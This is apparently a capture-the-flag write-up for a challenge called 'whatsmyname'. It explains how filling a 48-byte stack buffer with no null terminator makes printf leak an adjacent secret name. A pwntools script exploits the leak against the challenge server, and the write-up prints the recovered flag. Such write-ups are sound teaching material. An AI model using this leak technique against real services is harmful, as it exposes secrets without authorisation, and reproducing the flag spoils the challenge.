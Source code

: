 #### Challenge:

Can you guess my name?

`nc challs.actf.co 31223`

[whatsmyname](./whatsmyname ":ignore") [whatsmyname.c](./whatsmyname.c ":ignore")

---

#### Solution:

We have to guess `48 byte` name that is randomly generated. Luckily for us, the variable holding this value is adjacent on stack to variable we can write to and which will be sent back to us using `printf` with `%s`. If we will send all of the `48` bytes to fill `yourName`, there wont be any space for the string terminator (`NULL byte - \x00`), so the string won't be terminated and the `printf` with `%s` will `leak the name we have to guess`. (Note that there is this weird condition that replaces second-to-last character `if it is a line break` with string terminator, but if we don't send the line break, we are good.) Then we just have to send the correct `"guess"` and we will get the flag.

```python
#!/usr/bin/env python

from pwn import *
from struct import *

r = remote('challs.actf.co', 31223)
# r = process('./whatsmyname')

print(r.recvuntil(b"Hi! What's your name? ").decode('utf-8').strip())

payload = b'A'*(48)
print(payload)
r.sendline(payload)

print(r.recvuntil(b"Nice to meet you, "+payload).decode('utf-8').strip())
his_name = r.recvline()[:-2] # except the !\n characters in printf
print(bytes(his_name))



print(r.recvuntil(b"Guess my name and you'll get a flag!").decode('utf-8').strip())

r.sendline(his_name+b'\n')

print(r.recvline().decode('utf-8').strip())
print(r.recvline().decode('utf-8').strip())
print(r.recvline().decode('utf-8').strip())

r.close()
```

---

<details><summary>FLAG:</summary>

```
actf{i_c0uld_be_l0nely_with_y0u_a21f8611c74b}
```

</details>
<br/>
